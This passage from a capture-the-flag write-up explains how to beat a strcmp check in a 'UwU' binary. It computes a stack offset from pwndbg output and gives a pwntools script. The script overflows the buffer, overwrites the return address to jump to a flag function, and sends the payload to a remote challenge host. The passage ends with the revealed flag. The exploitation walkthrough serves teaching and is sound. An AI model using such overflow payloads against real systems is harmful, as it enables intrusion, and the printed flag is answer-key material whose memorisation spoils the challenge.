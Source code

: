 ### Second filter "nothing"
```c
if (strcmp(UwU, "nothing") != 0)
```

To pass this, we need to ensure that our buffer can also overwrite the value inside `UwU` correctly to `b'nothing\x00'`

Again to overwrite `UwU` to something we want, we need to find it's address and calculate the offset.

To do so, we again look at the assembly code
```as
0x4008bb <UwU_main+119>    lea    rax, [rbp - 0x10]            RAX => 0x7fffffffdbf0 ◂— 0x676e6968746f6e /* 'nothing' */
   0x4008bf <UwU_main+123>    mov    esi, 0x400b6b                ESI => 0x400b6b ◂— outsb dx, byte ptr [rsi] /* 'nothing' */
   0x4008c4 <UwU_main+128>    mov    rdi, rax                     RDI => 0x7fffffffdbf0 ◂— 0x676e6968746f6e /* 'nothing' */
 ► 0x4008c7 <UwU_main+131>    call   strcmp@plt                  <strcmp@plt>
        s1: 0x7fffffffdbf0 ◂— 0x676e6968746f6e /* 'nothing' */
        s2: 0x400b6b ◂— 0x676e6968746f6e /* 'nothing' */
```

we can clearly observe that `UwU` from the address `$rbp-0x10` i.e. `0x7fffffffdbf0` is loaded into `strcmp` as the first argument

Therefore, the offset to `0x7fffffffdbf0` is

`0x7fffffffdbf0` - `0x7fffffffdba0` = `0x50` = `80` bytes

```py
# solve script solve.py
from pwn import * 

# p = process("./program")
p = remote("chal.firebird.sh", 35019)

payload = b'UwUUwU' + b'A' * 74  # 80 bytes to UwU
payload += b'nothing' + b'\0' # make sure it's "nothing"
payload += b'A' * 8 # the data "nothing" itself at $rbp-0x10 takes 8 bytes, add 8 more bytes (16 bytes i.e. 0x10 ) to reach $rbp

payload += b'A' * 8 # according to the typical stack memory layout and actual stack section from pwndbg, the address to be overwritten is located at $rbp+0x8, 8 bytes above base pointer 
payload += p64(0x00000000004007d6) # overwrite the value to jump to UwU_flag

# double verification, 80 + 8 ("nothing") + 8 + 8 = 104, the offset we calculated earlier, perfect! 
p.sendline(payload)

p.interactive()
```


```
Welcome to the world of UwU!! ฅ^•ﻌ•^ฅ

Can you create some UwU for UwU? ⁄(⁄ ⁄•⁄ω⁄•⁄ ⁄)⁄
Your UwU is UwU enough!! (╯✧∇✧)╯
What the hack!! How you did get here!! (ꐦ°д°) 
Let me print the flag to you... ( ˘•ω•˘ )◞⁽˙³˙⁾
flag{w4rp1n6_7h3_f10w_w17h_UwU}
```
YEA! 
